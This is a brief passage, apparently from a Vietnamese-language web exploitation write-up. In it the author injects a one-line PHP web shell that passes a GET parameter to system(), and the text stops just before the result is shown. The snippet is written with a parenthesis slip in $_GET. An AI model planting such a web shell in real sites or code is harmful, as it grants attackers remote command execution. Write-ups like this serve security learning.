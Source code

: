 Lúc này trong đầu mình tự đặt ra câu hỏi `“Vậy sẽ ra sao nếu nhúng vào trang này một đoạn code thực thi cmd thông qua biến GET và trả về kết quả??”`

Mình có đoạn code như sau: 

```php
function onStart(){
	echo(system($_GET('cmd')));
}
```

![Untitled](Untitled%2024.png)

Và đây là kết quả: 
